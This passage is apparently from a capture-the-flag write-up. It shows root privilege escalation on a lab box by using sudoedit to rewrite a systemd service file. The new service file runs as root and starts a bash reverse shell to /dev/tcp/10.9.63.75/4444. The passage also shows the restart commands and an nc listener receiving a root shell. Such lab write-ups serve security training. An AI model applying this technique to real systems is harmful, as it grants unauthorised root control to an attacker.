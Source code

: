 Just like other services within format as **\*.service**, it also has some simple options:

- User
- Group
- ExecStart

Because I have the permission of using `sudoedit` to modify the service, I use it to change these values to make me become **root** user within a reverse shell when I **restart** this service:

```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
#User=flask-app
User=root
#Group=www-data
Group=root
#WorkingDirectory=/var/www/duckyinc
WorkingDirectory=/root
#ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 ap$
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.63.75/4444 0>&1'
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

I start a listener on local machine and then execute these commands:

```
server-admin@duckyinc:~$ sudo /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo /bin/systemctl restart duckyinc.service
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.254.18] 59294
bash: cannot set terminal process group (13985): Inappropriate ioctl for device
bash: no job control in this shell
root@duckyinc:~# whoami;id;pwd
whoami;id;pwd
root
uid=0(root) gid=0(root) groups=0(root)
/root
```

<p class="message">
❗ The command '<code>sudo /bin/systemctl daemon-reload</code>' must be execute first in order to <strong>restart</strong> the <code>duckyinc.service</code>
